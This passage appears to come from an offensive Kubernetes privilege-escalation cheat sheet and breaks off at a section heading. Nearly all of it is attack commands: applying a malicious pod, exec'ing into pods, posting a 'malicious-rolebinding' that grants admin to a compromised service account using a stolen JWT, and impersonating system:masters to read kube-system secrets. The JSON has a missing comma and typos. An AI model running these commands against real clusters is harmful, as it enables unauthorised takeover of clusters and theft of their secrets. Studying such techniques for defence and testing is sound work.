 Then `kubectl apply -f malicious-pod.yaml`

### Privilege to Use Pods/Exec

```powershell
kubectl exec -it <POD NAME> -n <PODS NAMESPACE> –- sh
```

### Privilege to Get/Patch Rolebindings

The purpose of this JSON file is to bind the admin "CluserRole" to the compromised service account.
Create a malicious RoleBinging.json file.

```powershell
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "malicious-rolebinding",
        "namespaces": "default"
    },
    "roleRef": {
        "apiGroup": "*",
        "kind": "ClusterRole",
        "name": "admin"
    },
    "subjects": [
        {
            "kind": "ServiceAccount",
            "name": "sa-comp"
            "namespace": "default"
        }
    ]
}
```

```powershell
curl -k -v -X POST -H "Authorization: Bearer <JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings -d @malicious-RoleBinging.json
curl -k -v -X POST -H "Authorization: Bearer <COMPROMISED JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secret
```

### Impersonating a Privileged Account

```powershell
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" -H "Impersonate-Group: system:masters" -H "Impersonate-User: null" -H "Accept: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

## Privileged Service Account Token
